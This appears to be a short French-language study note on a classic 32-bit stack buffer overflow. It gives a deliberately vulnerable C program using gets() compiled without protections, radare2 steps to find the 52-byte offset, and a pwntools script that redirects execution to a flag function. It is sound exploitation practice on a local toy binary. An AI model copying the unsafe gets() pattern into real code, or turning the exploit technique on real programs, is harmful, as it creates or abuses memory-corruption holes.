

#Doc

- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique

## Programme vulnérable

```c
// gcc source.c -o vuln -no-pie -fno-stack-protector -z execstack -m32
#include <stdio.h>

void unsafe() {
    char buffer[40];
    
    puts("Overflow me");
    gets(buffer);
}

void main() {
    unsafe();
}

void flag() {
    puts("Exploited!!!!!");
}
```

## Trouver le padding = taille du buffer pour segfault

```bash
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
52
```

## Exploitation

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```


